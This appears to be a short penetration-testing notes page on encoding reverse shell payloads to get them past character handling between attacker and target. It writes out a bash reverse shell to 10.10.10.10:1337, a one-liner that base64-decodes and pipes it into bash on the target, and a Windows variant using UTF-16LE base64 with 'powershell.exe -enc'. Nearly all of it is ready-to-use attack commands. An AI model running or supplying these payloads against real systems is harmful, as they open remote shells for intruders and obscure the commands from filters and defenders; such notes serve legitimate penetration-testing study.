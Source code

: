 # Encoded Shell Spawning

Sometimes using some [[TTY-Spawning]] tool is not enough either how characters are handled at any point clientside to serverside require encoding to be decoded back to execuatable form. The only assumption made is the the attacker machine is some Linux distro with default binaries and a encoding binary installed.

## Base64

Covert to base64 with 0 column wrapping to prevent multi-line base64 string
```bash
# Create payload
echo "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'" | base64 -w0
# -w0 means wrap 0 columns 
```

Decode Payload on target machine:

Linux
```bash
echo "$base64EncodedString" | base64 -d | bash
```

For Windows convert a file contain your reverse shell
```bash
iconv -f ASCII -t UTF-16LE $reverseshell.txt | base64 | tr -d "\n"
```

```powershell
powershell.exe -enc outputFromTheCommandAbove
```
